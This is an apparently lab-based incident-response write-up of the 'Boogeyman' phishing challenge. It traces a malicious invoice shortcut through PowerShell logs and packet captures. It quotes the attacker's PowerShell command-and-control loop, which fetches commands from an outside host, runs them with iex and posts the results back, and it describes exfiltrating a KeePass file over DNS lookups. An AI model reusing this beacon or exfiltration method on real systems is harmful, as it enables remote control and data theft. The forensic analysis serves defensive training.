

# Boogeyman Walkthrough

## Challenge Scenario

The Boogeyman is here! \
\
Julianne, a finance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation

<figure><figcaption></figcaption></figure>

The security team was able to flag the suspicious execution of the attachment, in addition to the phishing reports received from the other finance department employees, making it seem to be a targeted attack on the finance team. Upon checking the latest trends, the initial TTP used for the malicious attachment is attributed to the new threat group named Boogeyman, known for targeting the logistics sector.\
\
You (we) are tasked to analyse and assess the impact of the compromise.

## Email Analysis (Look at that headers!)

The room starts with providing us the artefacts that we will need to investigate & analyze. Seen below are the files contained within the artefacts folder,

<figure><figcaption><p>Taking a peek at the email file, we got to list down some key information:</p></figcaption></figure>

Taking a peek at the email file, we got to list down some key information:

> Sender: agriffin@bpakcaging.xyz\
> Receiver: julianne.westcott@hotmail.com\
> 1 attachment: Invoice.zip\
> Attachment password: Invoice2023!\
> DKIM-Signature: v=1; a=rsa-sha256; **d=elasticemail.com**; s=api\
> Authentication Results: spf=pass (sender IP is 15.235.99.80) smtp.mailfrom=bpakcaging.xyz;     dkim=pass (signature was verified) header.d=bpakcaging.xyz

<figure><figcaption><p>I hope Julianne is really doing well, as this Arthur guy looks fishy.</p></figcaption></figure>

Because we are _good people_, let's give Arthur the benefit of the doubt and check out the attached document from their email. Using Thunderbird, we downloaded the attached "Invoice.zip" and extracted its contents using the passcode in the body of the email. Turns out there really is something fishy!

<figure><figcaption><p>Why is the invoice a shortcut? Only Arthur will know. Oh, I forgot about us. We can try to know!</p></figcaption></figure>

I would've expected a word document or excel file contained within the zip file, but I got a shortcut (.lnk) file instead. Now we get to see some tomfoolery. Using properties viewer, or lnkparse, we get to see some interesting contents of this shortcut file.

<figure><figcaption><p>The &#x3C;.lnk> file will call powershell accompanied by some encoded commands. This is incomplete so... </p></figcaption></figure>

<figure><figcaption><p>...using pylnk to parse this shortcut, we get to see the full command line argument.</p></figcaption></figure>

## Endpoint Security (Are you sure that's an invoice?)&#x20;

Now that we know (and validated) there is something fishy going on, we can proceed with analyzing the artefacts provided. Looking at the given resources, we can use **jq** tool to create a one-liner parsing command to output useful information from the **powershell.json** windows event logs. The initial viewing of the raw event logs tells us there are valuable information from logs with **EventID = 4104**, and as such, we proceed with the command below.

<figure><figcaption><p>We can sanitize further the output of this query, but the output above will do; a big picture of the incident can already be seen.</p></figcaption></figure>

Upon analyzing, the first few events seem to be a executing powershell script that is making requests to a specific server, executing code received from that server, and sending the output back to the server. Using the same output above, lets list down some vital information.

```
Domains: cdn.bpakcaging.xyz, files.bpakcaging.xyz
IP Address(es): 167.71.211.113
Executables: sb.exe, Seatbelt.exe, sq3.exe
Directories of interest: C:\\Users\\j.westcott\\Documents\\protected_data.kdbx
                         AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite       
Files of interest: protected_data.kdbx, plum.sqlite
```

Further analysis yields a file _**\<protected\_data.kdbx>**_ was converted into its byte (hex) representation, and was exfiltrated by appending its byte-data to a nslookup command towards a malicious IP 167\[.]71\[.]211\[.]113!&#x20;

## Network Traffic Analysis (They got us. Call the bank immediately)!

Now that we know some key indicators of compromise, we can get an idea of thee software used by the attacker to host its presumed file/payload server. In order for us to know this, we can use **tshark** in conjunction with **jq** to parse the _json-ified data_ exported from the provided _.pcap file_.

<figure><figcaption><p>It was a challenge to build the query for this, thankfully we have AIs now lol.</p></figcaption></figure>

Apache & Python were attributed to hosting the servers at "bpakcaging\[.]xyz", and as additional validation, we found that the suspicious executables were indeed hosted through a SimpleHTTP python server.

Furthermore, we were given a hint in one of the powershell execution command event logs on how communication is with the malicious domain.

<pre><code>$s='cdn.bpakcaging.xyz:8080';
$i='8cce49b0-b86459bb-27fe2489';
$p='http://';
$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/8cce49b0 -Headers @{\"X-38d2-8f49\"=$i};
while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/b86459bb -Headers @{\"X-38d2-8f49\"=$i}).Content;
<strong>if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;
</strong>$r=Out-String -InputObject $r;
$t=Invoke-WebRequest -Uri $p$s/27fe2489 -Method POST -Headers @{\"X-38d2-8f49\"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}\n"}
</code></pre>

A deeper analysis of this powershell script tells the following:

* A number of variables were declared to contain parts of the malicious file/C2 server, whether for the custom header identifier or the URL string itself.&#x20;
* The script will run on an indefinite loop, as shown by the "while ($true)" function, to continuously do a GET request (Invoke-WebRequest) to the url http://cdn.bpakcaging.xyz:8080/b86459bb, and the response for it will be stored in the $c variable.
* If the $c variable doesn't return the value 'None', the script will proceed to execute the content (iex) stored in the $c variable, while also declaring an error variable $e.
* The output of the command executed by the $c variable is outputted into a string and put into the $r variable, which is then sent to http://cdn.bpakcaging.xyz:8080/27fe2489, concatenated with an error code (if applicable), and encoded as UTF-8 data.

Put simply, whatever the contents of "/b86459b" will be run (GET) in the victim machine, and its output will be sent (POST) to "27fe2489".

<figure><figcaption><p>That's a lot of gets and posts!</p></figcaption></figure>

&#x20;As we are already aware of the commands that were run on the victim machine via **windows event logs**, we can try to analyze further the output of the commands that were sent to /27fe2489. Using tshark, we retrieved all the contents of all POST requests sent to the C2 server and stored them into a text file \<postdata.txt>.

```
┌──(kali㉿kali)-[~/Desktop/THM/Boogeyman]
└─$ tshark -r capture.pcapng -Y 'http.request.full_uri contains "/27fe2489"' -T fields -e  http.file_data > postdata.txt
```

Because of the length and amount of UTF-8 encoded data within the file, I decided to use Cyberchef to decode the contents, and voila, we seem to have found sensitive data being exfiltrated by the attacker.

<figure><figcaption><p>Cyber swiss army knife, right?</p></figcaption></figure>

We expect the decoded contents of \<postdata.txt> to be the output of the powershell commands as seen in the _**Endpoint Security**_ section of this writeup.&#x20;

<figure><figcaption><p>This confirms the fact that some "protected_data" was exfiltrated by the attacker. </p></figcaption></figure>

Because the file that the attacker retrieved was "protected", it will have some sort of encryption-protection. To get around this, the attacker snooped around the victim machine and found sensitive data, that seems to be the password of the exfiltrated file, stored in their sticky notes.

<figure><figcaption><p>Highlighted in green is the password of protected_data.kdbx</p></figcaption></figure>

To confirm this, we can retrieve the file that was exfiltrated using nslookup/DNS protocol with tshark as shown below.

```
┌──(kali㉿kali)-[~/Desktop/THM/Boogeyman]
└─$ tshark -r capture.pcapng -Y 'dns and dns.qry.name contains bpakcaging.xyz' -T fields -e dns.qry.name | sed -E 's/^[0-9]+ ([0-9A-F]+)\..*/\1/' | cut -d '.' -f1 | grep -vE 'files|cdn' | uniq
03D9A29A67FB4BB50100030002100031C1F2E6BF714350BE58
05216AFC5AFF03040001000000042000AF4DE7A467FADFBFEB
EB78AE194B03926333E0CC968727A1FF8CC4CD5151FAAC0520
00516334C81F95A871AE6F5C6BB97075B74C6016ADAD4C35B3
A327BFF48B837B4806080060EA0000000000000710000F22FE
38943F8ED485C92DA84BCCE2E2082000C47157BAF0E6A7EF35
A00731B6CE6192813F7AC951F0C6460D89A27D91DE15C50920
007187B84DD4E121AED3668F75F3761E8AAC3169F81025A5AE
30D657448F4401890A0400020000000004000D0A0D0A3865AE
FAA72AA7E2FC9869F30F566E4F58A19582BDA4C0988D8E9F6C
07B1BEE158304DACEAF21C13DA10E879F18F2F7B49A47E0E51
8937D7D640D840A9AE690350A5FC0688CB812608BF7EA09610
92AC88160CD73CD9C28C531FAB846C59856ADD3A3C5079F577
FF3DC74C71726EEB7203AD509F72940A6251632C32142CD358
EB0EC7316683B8245087121B26BD39A26D6343FC6AA22E0EB3
B0DE71F57F58B3FF81CF580E37E900AB73D9B78D9742D5A868
9AA2101EBF78DCF2F4259AAB651E288CA9A0640C627B9AD244
0560174BAA9109735E6CCDD095245D2412431D354324DE84EE
5E70AF87FB9601ABBB801C9C7E4A372EA2F2C0AFD6F013C0F1
DA53D059C1020DFE9F62508E225A3CC86068F826698FEEE77C
D3DD6E946E09E9FAB1917969ACC1655A1808F2C1CB7023D6F8
ED26802B4BFF7B2A9565965ED772114297238AE3BF66BF1AF8
8ECFC8ECD2AE4015863E0D7399F5DDB7594235E71A88D467BA
7521F469B52464178E2166879ACF9CBA0B9BB606CC7D03960C
7A676CD72F557E0C2990445E7D9546FED1DDABD30AF2F3E039
5CC8B613E43A9F84CE3C76BDAEE97B18E8EB5B7909E68A4600
09B6EBF73091EC5BFBD729D354A72808ACC4FC826048F4B2BC
A14E783B6FA6BAB842289C00561F09041F980B1694CDA157A5
A1E6AD811DD14C60311F85905FE4713C07BE4AFB0E1C1DB922
FA7272386A88D1E517A579080090B1045F34B838FF61ABDE03
66B40A4D7EA7EDAE97B30804E6251399152EAAEAB333BF4B7C
DC78912E879DE19C6F64995E0BA3F86A28EE10653821C08F16
E8AFE6348E63C4F286FFA1C605110B5D323DF83C8B4EE1098A
5FA652A90AF0DCA4310BEB0F508E6FC47437E5A221B8C18601
57BE47D91FAD0043A439172F9ABCB946C9F47B10B1B015589E
E6167A3B2E9A082AC6DC1FC99670650435C4C508D6D9C378C9
0255F4FACC7C4D97E877BFC9657E142B8D0D8A2156A6C1FDB7
67AC6EB96902C9912E02D10A0081FE8F86714F7AAC2EDB1E9B
D93206C5ED28C7991021651D8B5AB77CE7BB182EF66263789D
49E4C6B93FAEC87E2ADE82D66EA6027F14196A55D937B74128
1572381AE62DF46E14F8680423019AF92667505498C5C1F230
28F668E4610A1215138D9555B1E70FD3516C2DCEFB8A284C11
50A7D4E718F3CD000CCAD099876E78F417AEA9A62CBEB07D2E
507A0ED6910620595988DD4782D72BFCD1D4E2EB043B58064D
646DF5799FE9AED14F5B0BE8AB853DF42561D677D5761685DB
C7119EA8DA1AB879E0F6992D06E1E256659D9E8A8F273B3B53
16589A6B9F5ED5083ED23976D6200B56EE4B60A0138E50779C
5B8620FC91B5A7F978DAB093A9D3DAFC543CB09500A2F4AAAB
08E208D52DA5B5F32F6319209A63A4A7727BC3F8A49B141854
D517892BE87637BD5CB823D595C8E6119AB4E20FDC5AB8B94C
0220DAA81754CE167A13D4B502097F9770E92EBD5D1055CC5A
9C6FED4FE085F3BF5332C8D79C47B735007D9E2D4F0F7D25B8
60D7151AB064EF1D1AA17E9DDF11B1DA6C89CA570CBC208DC5
441F433B18C1BEE3EC2199800D0C0226409D333E2462AC6271
5FA05805E4DCA4839209CB100A30F711D404E429C8FB94E48E
E9792A90FADC5AFBD92ED11D6EAD8CF53626B64399A1AABA9B
2CB469C09874802F5725027E7CCABDBE2881B4FE82E83E1623
99D186CA054CC9E31F4250C7CBF001D109B151BA65838D73CD
B9BF51150DF8F51BEDCAB0334F3BCEC28990A58A5F358F1A3A
46B41E178487324AB9689B89A25DADF101B9431DAD22D4DFFD
41C5A9562A4FA5C39C756087CC75D07081A5658ADE12235335
2F1F15CDA95BFFFE5A5E93F72097F2E1676FD11234DD78FB44
493F9B1E96011A558DF5FE02E5988F5EFE926EBC8FEBAED853
375B83FE4027D0D5F43A7B59A68DD68D965071B74BC7F28D76
161D7B6CF1AB459C0FE12C224D62A1461EABDA71A2E90A5B44
82AA4E62107082A6F8FAC809A656EE3B1E59085A24B01C5C9A
7691D0C9E4BA0BFF8424DCD6614FB8A338B5FDA779CE490DB9
220858127C5A9AF7564316466DF1380EA583D736C92BD631CA
071C0D89936AAB0D3E668710B1BFA42A8C672877589069023D
99FF75CF0D5F23C8D4AB5029AA4CB11A5D4406B999C718D28F
43A1787D7C4D06F4500E5F3865C0C7F2D5F21749D991F7868A
511A103C533BED53EB35A3293160895281705364C83C081B6F
48F65FCD1961B68ACFFEFE481259C6279A9ED6D232888078C2
69156085A4CA2F149FDA45D762090C573D21B38D4FE99F071C
70CCB2BD98C5251676A03F5FA2B1301F1791CF734158B34FEF
2BB49722AF259E18261D5557F87F9EBB3203BEEA8FEE2F7511
AAD14D00BBD1D468A8E5C5AEAAE826E31C941CCE46968135E3
40423ECDD102699B12AD8FE9785078F9AC8D5AD16BA8C7E757
3424A15F9E5612F2A4368EFB3409F6BE10994B0C0F7C26F49D
EC67791F7A123E9D85CAC71B32163A15F5105B59A4C2C40792
43C1F527CA2214C744E22FF7A903907201D11E08350E69A23B
D510E1BA9D7EE857746226CC88550A04A57E83DFD4F627372B
6ECD8D27D1C9C005FC12831FAA34C97DED4A1175D9BEE28894
FCD18B5C010EE02357DA2757B54ADF2FB0BBEE52206FCC7306
BA491DDF76F9472E0805BEF72DFDC38CBACF45340D17447FBE
B853516FD33B1D166871B316325DB0EA1560F14DB217F1314F
CF54280D2687FE7811588BEB71FEDD008C1AEFE46E3AFD71B3
B921E7F311F44F570D85FD09FFAB3DF255B350D4110B9F0FE5
76F864F2A8A4

```

Since we know the contents of this file are encoded in hex, we can rebuild the file using Cyberchef, and re-save it as the same "protected\_data.kdbx" file.&#x20;

<figure><figcaption><p>We're getting close!</p></figcaption></figure>

As an additional note, files that end with the **.kdbx extension** are files that are created by the open-source password manager software, KeePass, thus we also downloaded the software to validate our investigation as is. To top it all off.....

<figure><figcaption><p>Inputting what seems to be the password we found earlier....</p></figcaption></figure>

<figure><figcaption><p>Gives us the view of the attacker.</p></figcaption></figure>

There's that then.
